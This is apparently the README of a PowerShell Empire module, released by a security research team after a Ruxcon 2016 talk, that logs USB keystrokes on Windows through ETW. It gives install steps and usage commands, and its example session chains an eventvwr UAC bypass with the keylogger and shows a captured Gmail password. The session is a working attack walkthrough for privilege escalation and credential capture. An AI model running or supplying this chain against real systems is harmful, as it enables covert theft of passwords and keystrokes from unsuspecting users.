 # ETWKeylogger_PSE
PowerShell Empire module for our keylogging technique presented at Ruxcon 2016

Slides:  
https://ruxcon.org.au/slides/

C# POC Code:  
https://github.com/CyberPoint/Ruxcon2016ETW/tree/master/KeyloggerPOC


##Install
Copy files to PSE:  
Get-USBKeystrokes.ps1 -> `<Empire_dir`>/data/module_source/collection/  
USBKeyLogger.py -> `<Emipre_dir`>/lib/modules/collection/  

##Requirements
Windows 7* and up  
*Windows 7 - No USB 3.0 support  
USB Keyboard  
Admin priveleges  

##Usage
Requires admin to run (see UAC bypasses: privesc/bypassuac*). From a PSE agent session:  

usemodule collection/USBKeylogger  
execute  

##Example Session
(include UAC bypass)  

(Empire: privesc/bypassuac) > [+] Initial agent PTELZMW2KL4NKZMD from 10.10.10.181 now active  
interact  PTELZMW2KL4NKZMD  
(Empire: PTELZMW2KL4NKZMD) > usemodule privesc/bypassuac_eventvwr  
(Empire: privesc/bypassuac_eventvwr) > set Listener 1  
(Empire: privesc/bypassuac_eventvwr) > execute  
(Empire: privesc/bypassuac_eventvwr) >  
Job started: Debug32_gz2k1  
[+] Initial agent BQSZGT2BZH3A4CUT from 10.10.10.181 now active  
interact BQSZGT2BZH3A4CUT  
(Empire: BQSZGT2BZH3A4CUT) > usemodule collection/USBKeylogger  
(Empire: collection/USBKeylogger) > execute  
(Empire: collection/USBKeylogger) >  
Job started: Debug32_24nbw

ETWKeylogger, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null  
ETW library loaded  
Callback registered. Starting keylogger  
Started keylogger  

[=== Gmail and 1 more page ‎- Microsoft Edge - 09/11/2016:13:02:20 ===]  
password  

##Contact Us  
@CyberPoint_SRT  
SRT [at] cyberpointllc.com
